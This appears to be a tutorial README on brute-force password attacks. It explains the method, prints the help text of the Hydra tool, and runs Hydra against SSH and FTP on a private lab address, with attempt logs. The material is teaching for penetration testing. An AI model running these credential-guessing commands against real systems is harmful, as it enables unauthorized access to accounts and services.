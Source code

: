 # BruteForcing
Brute force attack is a method used in cryptanalysis to find a password or key. It involves testing, one by one, all possible combinations. 
* This method is generally considered the simplest conceivable.
* It allows any password to be broken in a finite time regardless of the protection used, but the time increases with the length of the password
* This method is often combined with dictionary and rainbow table attack to find the secret faster.

## Tool
<hr>

### Hydra
* Hydra is a brute-forcing tool that helps penetration testers and ethical hackers crack the passwords of network services.
* Hydra can perform rapid dictionary attacks against more than 50 protocols. This includes telnet, FTP, HTTP, HTTPS, SMB, databases, and several other services.

### Launch hydra

```bash
hydra
```
output
```bash
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Syntax: hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e nsr] [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-W TIME] [-f] [-s PORT] [-x MIN:MAX:CHARSET] [-c TIME] [-ISOuvVd46] [-m MODULE_OPT] [service://server[:PORT][/OPT]]

Options:
  -l LOGIN or -L FILE  login with LOGIN name, or load several logins from FILE
  -p PASS  or -P FILE  try password PASS, or load several passwords from FILE
  -C FILE   colon separated "login:pass" format, instead of -L/-P options
  -M FILE   list of servers to attack, one entry per line, ':' to specify port
  -t TASKS  run TASKS number of connects in parallel per target (default: 16)
  -U        service module usage details
  -m OPT    options specific for a module, see -U output for information
  -h        more command line options (COMPLETE HELP)
  server    the target: DNS, IP or 192.168.0.0/24 (this OR the -M option)
  service   the service to crack (see below for supported protocols)
  OPT       some service modules support additional input (-U for module help)

Supported services: adam6500 asterisk cisco cisco-enable cvs firebird ftp[s] http[s]-{head|get|post} http[s]-{get|post}-form http-proxy http-proxy-urlenum icq imap[s] irc ldap2[s] ldap3[-{cram|digest}md5][s] memcached mongodb mssql mysql nntp oracle-listener oracle-sid pcanywhere pcnfs pop3[s] postgres radmin2 rdp redis rexec rlogin rpcap rsh rtsp s7-300 sip smb smtp[s] smtp-enum snmp socks5 ssh sshkey svn teamspeak telnet[s] vmauthd vnc xmpp

Hydra is a tool to guess/crack valid login/password pairs.
Licensed under AGPL v3.0. The newest version is always available at;
https://github.com/vanhauser-thc/thc-hydra
Please don't use in military or secret service organizations, or for illegal
purposes. (This is a wish and non-binding - most such people do not care about
laws and ethics anyway - and tell themselves they are one of the good ones.)

Example:  hydra -l user -P passlist.txt ftp://192.168.0.1
```

`Example : hydra -l user -P passlist.txt ftp://192.168.0.1`

## protocols supported.
<img src="forcebruteP.png" width="80%">

# let's try
```bash
hydra -l root -x 1:9:aA1 192.168.133.129 ssh
```
```bash
hydra -V -l root -x 1:9:aA1 192.168.133.129 ssh
```
output

```bash
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-07-14 16:59:58
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 242234 login tries (l:1/p:242234), ~15140 tries per task
[DATA] attacking ssh://192.168.133.129:22/
```
## Brute forcing
we will create two files containing usernames and passwords.

### Let's try
```bash
hydra -V -L usernames -P passwords 192.168.133.129 ftp

````
Output
```bash
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-07-14 17:35:09
[DATA] max 16 tasks per 1 server, overall 16 tasks, 16 login tries (l:4/p:4), ~1 try per task
[DATA] attacking ftp://192.168.133.129:21/
[ATTEMPT] target 192.168.133.129 - login "samglish" - pass "azerty" - 1 of 16 [child 0] (0/0)
[ATTEMPT] target 192.168.133.129 - login "samglish" - pass "azerty12" - 2 of 16 [child 1] (0/0)
[ATTEMPT] target 192.168.133.129 - login "samglish" - pass "qwerty" - 3 of 16 [child 2] (0/0)
[ATTEMPT] target 192.168.133.129 - login "samglish" - pass "qwerty12" - 4 of 16 [child 3] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Samglish" - pass "azerty" - 5 of 16 [child 4] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Samglish" - pass "azerty12" - 6 of 16 [child 5] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Samglish" - pass "qwerty" - 7 of 16 [child 6] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Samglish" - pass "qwerty12" - 8 of 16 [child 7] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Glish" - pass "azerty" - 9 of 16 [child 8] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Glish" - pass "azerty12" - 10 of 16 [child 9] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Glish" - pass "qwerty" - 11 of 16 [child 10] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Glish" - pass "qwerty12" - 12 of 16 [child 11] (0/0)
[ATTEMPT] target 192.168.133.129 - login "glish" - pass "azerty" - 13 of 16 [child 12] (0/0)
[ATTEMPT] target 192.168.133.129 - login "glish" - pass "azerty12" - 14 of 16 [child 13] (0/0)
[ATTEMPT] target 192.168.133.129 - login "glish" - pass "qwerty" - 15 of 16 [child 14] (0/0)
[ATTEMPT] target 192.168.133.129 - login "glish" - pass "qwerty12" - 16 of 16 [child 15] (0/0)
|
```
